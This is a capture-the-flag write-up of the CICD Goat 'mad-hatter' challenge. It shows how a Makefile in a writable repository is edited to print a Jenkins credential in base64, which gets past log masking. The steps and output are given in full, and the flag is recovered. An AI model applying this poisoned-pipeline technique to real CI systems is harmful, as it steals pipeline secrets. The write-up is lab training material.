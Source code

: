 ```yaml
---
Category:
  - CI/CD
Difficulty: Easy
Platform: CICD Goat
tags:
  - poisoned-pipeline-execution
  - i-ppe
status: 3. Complete
---
```

>[!quote]
>Jenkinsfile is protected? Sounds like an unbirthday party. Use your access to the *Wonderland/mad-hatter* repository to steal the flag3 secret.

Scenario:
- `Jenkinsfile`[^jenkinsfile] is protected: the pipeline is configured in a separate repository from where the application code is stored at. The attacker doesn’t have permission to trigger a pipeline with a modified Jenkinsfile.
- The attacker can read pipeline repository contents (*mad-hatter-pipeline*).

[^jenkinsfile]: [Jenkins pipeline & Jenkinsfile](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/Jenkins.md#Jenkins%20pipeline%20&%20Jenkinsfile)

Hint:
- Where’s the Jenkinsfile stored? Search for the repo name in the Wonderland organization, you might find some helpful repos.
- What commands are run by the Jenkinsfile?

Solution:
- [CICD-SEC-4 Indirect Poisoned Pipeline Execution (I-PPE)](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/CICD%20security.md#CICD-SEC-4%20Poisoned%20Pipeline%20Execution)
- https://github.com/cider-security-research/cicd-goat/blob/main/solutions/mad-hatter.md

---

>[!summary]
>Even if we can't alter the Jenkinsfile and directly poison the pipeline, by inspecting the *mad-hatter-pipeline* repository we can notice a `make` command inside it. Because we have write capabilities inside *mad-hatter*, and the repository contains a `Makefile`, we can indirectly poison the pipeline by injecting arbitrary commands inside the *Makefile*.

*Wonderland/mad-hatter-pipeline/src/branch/main/Jenkinsfile*
```json
pipeline {
    agent any
    environment {
        PROJECT = "yagmail"
    }
    ...
    stage('make'){
            steps {
              withCredentials([usernamePassword(credentialsId: 'flag3', usernameVariable: 'USERNAME', passwordVariable: 'FLAG')]) {
                sh 'make || true'
              }
            }           
        }
```

*Wonderland/mad-hatter*
```bash
$ ls           
conftest.py  deploy.py  docs  LICENSE  Makefile  MANIFEST.in  README.md  README.rst  setup.cfg  setup.py  tests  tox.ini  yagmail
```

Cloned the mad-hatter repository, created a new brench, injected the arbitrary commands and pushed the new files:
```bash
$ git clone http://localhost:3000/Wonderland/mad-hatter
Receiving objects: 100% (43/43), 62.30 KiB | 7.79 MiB/s, done.

$ git checkout -b dppe
Switched to a new branch 'ippe'
$ nano Makefile
whoami:
        echo "${FLAG}" | base64

$ git commit Makefile -m "poisoned"
[dppe e90238f] poisoned
 1 file changed, 2 insertions(+), 1 deletions(-)

$ git push -u origin ippe
...
Total 3 (delta 2), reused 0 (delta 0), pack-reused 0
 * [new branch]      ippe -> ippe
branch 'ippe' set up to track 'origin/ippe'.
```

Opened a PR in order to trigger the pipeline:
![](attachments/CICD-goat-mad-hatter-1.png)

Results in output:
```
...
Masking supported pattern matches of $FLAG
[Pipeline] {
[Pipeline] sh
+ make
echo "****" | base64
QUNENkU2QjgtMzU4NC00RjQzLUFCOUMtQUNEMDgwQjhFQkIyCg==
echo LAG | base64
TEFHCg==
```

>[!success]
>`ACD6E6B8-3584-4F43-AB9C-ACD080B8EBB2`